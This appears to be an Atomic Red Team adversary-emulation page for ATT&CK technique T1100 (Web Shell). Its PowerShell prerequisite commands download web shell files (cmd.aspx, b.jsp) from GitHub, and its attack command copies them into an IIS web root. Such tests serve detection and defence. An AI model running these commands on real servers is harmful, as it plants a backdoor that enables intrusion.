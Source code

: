 # T1100 - Web Shell

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1100)

<blockquote>A Web shell is a Web script that is placed on an openly accessible Web server to allow an adversary to use the Web server as a gateway into a network. A Web shell may provide a set of functions to execute or a command-line interface on the system that hosts the Web server. In addition to a server-side script, a Web shell may have a client interface program that is used to talk to the Web server (see, for example, China Chopper Web shell client). (Citation: Lee 2013)

Web shells may serve as [Redundant Access](https://attack.mitre.org/techniques/T1108) or as a persistence mechanism in
case an adversary's primary access methods are detected and removed.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Web Shell Written to Disk](#atomic-test-1---web-shell-written-to-disk)

<br/>

## Atomic Test #1 - Web Shell Written to Disk

This test simulates an adversary leveraging Web Shells by simulating the file modification to disk.
Idea from APTSimulator.
cmd.aspx source - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| web_shell_path | The path to drop the web shell | string | C:&#92;inetpub&#92;wwwroot|
| web_shells | Path of Web Shell | path | PathToAtomicsFolder&#92;T1100&#92;src&#92;|

#### Attack Commands: Run with `command_prompt`!

```cmd
xcopy #{web_shells} #{web_shell_path}
```

#### Cleanup Commands:

```cmd
del #{web_shell_path} >nul 2>&1
```

#### Dependencies:  Run with `powershell`!

##### Description: Web shell must exist on disk at specified location (#{web_shells})

##### Check Prereq Commands:

```powershell
if (Test-Path #{web_shells}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{web_shells}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1100/src/b.jsp" -OutFile "#{web_shells}/b.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1100/src/tests.jsp" -OutFile "#{web_shells}/test.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1100/src/cmd.aspx" -OutFile "#{web_shells}/cmd.aspx"
```

<br/>
